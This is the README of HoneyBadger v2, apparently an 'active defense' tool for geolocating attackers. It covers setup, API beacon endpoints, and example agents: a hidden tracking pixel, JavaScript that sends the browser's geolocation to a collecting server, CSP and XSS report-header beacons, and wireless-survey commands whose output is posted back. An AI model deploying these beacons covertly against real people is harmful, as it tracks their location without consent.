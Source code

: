 # HoneyBadger v2

HoneyBadger is a framework for targeted geolocation. While honeypots are traditionally used to passively detect malicious actors, HoneyBadger is an Active Defense tool to determine who the malicious actor is and where they are located. HoneyBadger leverages "agents" built in various technologies that harvest the requisite information from the target host in order to geolocate them. These agents report back to the HoneyBadger API, where the data is stored and made available in the HoneyBadger user interface.

An early prototype of HoneyBadger (v1) can be seen in the presentation "[Hide and Seek: Post-Exploitation Style](http://youtu.be/VJTrRMqHU5U)" from ShmooCon 2013. The associated Metasploit Framework modules mentioned in the above presentation can be found [here](https://github.com/v10l3nt/metasploit-framework/tree/master/modules/auxiliary/badger). Note: These modules have not been updated to work with v2 of the API.

## Getting Started

### Pre-requisites

* Python 3.x

### Installation (Ubuntu and OS X)

1. Install [pip](https://pip.pypa.io/en/stable/installing/).
2. Clone the HoneyBadger repository.

    ```
    $ git clone https://github.com/lanmaster53/honeybadger.git
    ```

3. Install the dependencies.

    ```
    $ cd honeybadger/server
    $ pip install -r requirements.txt
    ```

4. Initialize the database. The provided username and password will become the administrator account.

    ```
    $ python3
    >>> import honeybadger
    >>> honeybadger.initdb(<username>, <password>)
    ```

5. Start the HoneyBadger server. API keys will need to be provided to be able to use maps and geolocation services.

    ```
    $ python3 ./honeybadger.py -gk <GOOGLE_API_KEY> -ik <IPSTACK_API_KEY>
    ```

Honeybadger will still run without these API keys, but mapping and geolocation functionality will be limited as a result.


6. Visit the application and authenticate.
7. Add users and targets as needed using their respective pages.
8. Deploy agents for the desired target.

Clicking the "demo" button next to any of the targets will launch a demo web page containing an `HTML`, `JavaScript`, and `Applet` agent for that target.

### Fresh Start

Make a mess and want to start over fresh? Do this.

```
$ python3
>>> import honeybadger
>>> honeybadger.dropdb()
>>> honeybadger.initdb(<username>, <password>)
```

## API Usage

### IP Geolocation

This method geolocates the target based on the source IP of the request and assigns the resolved location to the given target and agent.

Example: (Method: `GET`)

```
http://<path:honeybadger>/api/beacon/<guid:target>/<string:agent>
```

### Known Coordinates

This method accepts previously resolved location data for the given target and agent.

Example: (Method: `GET`)

```
http://<path:honeybadger>/api/beacon/<guid:target>/<string:agent>?lat=<float:latitude>&lng=<float:longitude>&acc=<integer:accuracy>
```

### Wireless Survey

This method accepts wireless survey data and parses the information on the server-side, extracting what is needed to make a Google API geolocation call. The resolved geolocation data is then assigned to the given target. Parsers currently exist for survey data from Windows, Linux and OS X using the following commands:

Windows:

```
cmd.exe /c netsh wlan show networks mode=bssid | findstr "SSID Signal Channel"
```

Linux:

```
/bin/sh -c iwlist scan | egrep 'Address|ESSID|Signal'
```

OS X:

```
/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s
```

Example: (Method: `POST`)

```
http://<path:honeybadger>/api/beacon/<guid:target>/<string:agent>
```

POST Payload:

```
os=<string:operating-system>&data=<base64:data>
```

The `os` parameter must match one of the following regular expressions:

* `re.search('^mac os x', os.lower())`
* `re.search('^windows', os.lower())`
* `re.search('^linux', os.lower())`

### Universal Parameters

All requests can include an optional `comment` parameter. This parameter is sanitized and displayed within the UI as miscellaneous information about the target or agent.

## Example Web Agents

### HTML

```
img = new Image();
img.src = "http://<path:honeybadger>/api/beacon/<guid:target>/HTML";
```

or

```
<img src="http://<path:honeybadger>/api/beacon/<guid:target>/HTML" width=1 height=1 />
```

### JavaScript

Note: JavaScript (HTML5) geolocation agents will not work unless deployed in a secure context (HTTPS), or local host.

```
function showPosition(position) {
    img = new Image();
    img.src = "http://<path:honeybadger>/api/beacon/<guid:target>/JavaScript?lat=" + position.coords.latitude + "&lng=" + position.coords.longitude + "&acc=" + position.coords.accuracy;
}

if (navigator.geolocation) {
    navigator.geolocation.getCurrentPosition(showPosition);
}
```

### Content Security Policy

```
response.headers['X-XSS-Protection'] = '0'
response.headers['Content-Security-Policy-Report-Only'] = '<string:policy>; report-uri http://<path:honeybadger>/api/beacon/<guid:target>/Content-Security-Policy'
```

### XSS Auditor

```
response.headers['X-XSS-Protection'] = '1; report=http://<path:honeybadger>/api/beacon/<guid:target>/XSS-Protection'
```
